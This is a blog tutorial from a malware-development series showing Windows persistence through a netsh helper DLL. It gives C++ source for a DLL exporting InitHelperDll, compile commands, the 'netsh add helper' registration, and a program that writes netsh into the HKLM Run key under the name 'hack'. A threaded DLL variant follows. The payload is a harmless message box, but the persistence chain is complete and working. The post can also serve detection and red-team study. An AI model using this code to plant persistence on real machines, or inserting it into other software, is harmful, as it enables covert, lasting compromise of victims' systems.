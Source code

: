 ```yaml
---
title:  "Malware development: persistence - part 6. Windows netsh helper DLL. Simple C++ example."
date:   2022-05-29 10:00:00 +0600
header:
  teaser: "/assets/images/56/2022-05-29_15-24_1.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/56/2022-05-29_15-24_1.png){:class="img-responsive"}    

This post is a next part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: Netsh Helper DLL.

### netsh

**Netsh** is a Windows utility that administrators can use to modify the host-based Windows firewall and perform network configuration tasks. Through the use of DLL files, Netsh functionality can be expanded.

This capability enables red teams to load arbitrary DLLs to achieve code execution and therefore persistence using this tool.
However, local administrator privileges are required to implement this technique.

### practical example

Let's go to consider practical example. First of all create malicious DLL:

```cpp
/*
evil.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](/assets/images/56/2022-05-29_15-12.png){:class="img-responsive"}    

And transferred to the target victim's machine.

Netsh interacts with other components of the operating system via dynamic-link library (DLL) files. Each netsh helper DLL offers a comprehensive collection of features. The functionality of Netsh can be expanded using DLL files:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](/assets/images/56/2022-05-29_15-20.png){:class="img-responsive"}    

Then, the `add helper` can be used to register the DLL with the `netsh` utility:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

![pers](/assets/images/56/2022-05-29_15-23.png){:class="img-responsive"}    

![pers](/assets/images/56/2022-05-29_15-24.png){:class="img-responsive"}    

Everything is worked perfectly!

However, `netsh` is not scheduled to start automatically by default. Persistence on the host is created by creating a registry key that executes the application during Windows startup. This can be done immediately using the script below:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see it's similar to script from my post about [persistence via registry run keys](/tutorial/2022/04/20/malware-pers-1.html)

Check registry run keys:

```powershell
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/56/2022-05-29_15-18.png){:class="img-responsive"}    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/56/2022-05-29_15-14.png){:class="img-responsive"}    

and run on victim's machine:

```powershell
.\pers.exe
```

![pers](/assets/images/56/2022-05-29_15-21.png){:class="img-responsive"}    

When the `add helper` command is executed to load a DLL file, the following registry key is created:

![pers](/assets/images/56/2022-05-29_15-25.png){:class="img-responsive"}    

But there is a caveat. The PoC's logic needs to be updated to create a new thread so that netsh can still be used while the payload is running. However, when netsh ends, so does your malicious logic.

So, let's try. Create new DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Compile:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

![pers](/assets/images/56/2022-05-29_16-21.png){:class="img-responsive"}    

and run steps again:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

![pers](/assets/images/56/2022-05-29_16-23.png){:class="img-responsive"}    

As you can see, everything is ok, `netsh` can still be used. And we can check registry key for correctness:    

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](/assets/images/56/2022-05-29_16-23_1.png){:class="img-responsive"}    

Because it is based on the exploitation of system features, this type of attack cannot be easily mitigated with preventive controls.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[source code on github](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
